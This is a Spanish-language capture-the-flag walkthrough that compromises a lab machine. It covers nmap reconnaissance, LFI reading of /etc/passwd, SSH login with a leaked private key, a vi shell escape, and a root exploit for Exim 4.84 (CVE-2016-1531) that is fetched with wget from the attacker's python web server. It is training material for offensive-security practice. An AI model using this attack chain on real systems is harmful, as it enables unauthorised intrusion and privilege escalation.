Reconocimiento
Nmap
Primero vamos a escanear la red para ver que IP tenemos que atacar:
nmap -sn 192.168.1.0/24

Escaneamos la maquina para ver que puertos tiene abiertos;
nmap -p- --open --min-rate 5000 -Pn -n 192.168.1.115

Puertos abiertos:
| PORT | PROTOCOL | SERVICE |
|---|---|---|
| 22 | TCP | ssh |
| 80 | TCP | http |
| 3306 | TCP | mysql |
| 5355 | TCP | llmnr |
Vamos a ver la web por el puerto 80:

En El apartado About podemos ver que la url redirige a un archivo del sistema, podriamos intentar un LFI:

LFI
Vamos a intentar apuntar al archivo /etc/passwd:

Podemos verlo!
Vamos a poner la verlo en modo view-source para ver si podemos leerlo mejor:

Podemos ver que en la ultima linea hay un usuario que apunta a un script, vamos a intentar verlo:

El script nos dice se pueden coger los backups mediante tftp, por lo tanto vamos a intentar hacer eso mismo, el archivo esta en /backups/backup.tar;

Ya tenemos el archivo con los backups vamos a descomprimirlo y ver lo que hay dentro:

Vamos a ver el /home

Vemos unas claves que seguramente sean de ssh, vamos a ir probando cada una:

Con la id_key4 nos detecta que el la key privada, vamos a darle permisos:
chmod 600 id_key4

Ahora que hemos entrado nos da un panel que nos deja hacer varias cosas:
| Main menu |
|---|
| Directory listing |
| Change directory |
| Edit file |
| Who’s online? |
| WWW |
| Telnet |
| Ping |
| Exit |
Vamos a intentar editar un archivo:

Vemos que se nos abre vi como editor, vamos a intentar ponernos una shell
Vamos a buscar en GTFOBIS

Vamos a intentarlo:
:set shell=/bin/bash
:shell


Vamos a exportarnos una xterm para poder tener movimiento libre:
export TERM=xterm
Escalada de privilegios
Vamos a buscar binarios con permisos SUID
find / -perm -4000 2>/dev/null

Vamos a buscar ese exim 4.84 en exploitdb:
searchsploit exim 4.84

CVE-2016-1531 local root exploit
Vamos a pasarnos el script y intentar escalar privilegios:
searchsploit -m linux/local/39535.sh

Con el exploit en nuestra maquina vamos a pasarla a la maquina victima mediante un servidor en python:
python3 -m http.server 80
En la máquina víctima vamos al directorio tmp y ejecutamos este comando:
wget 192.168.1.7/39535.sh
Ahora le damos permiso de ejecución:
chmod +x 39535.sh
Y lo ejecutamos:

Ya podemos ver la flag:

Ya está!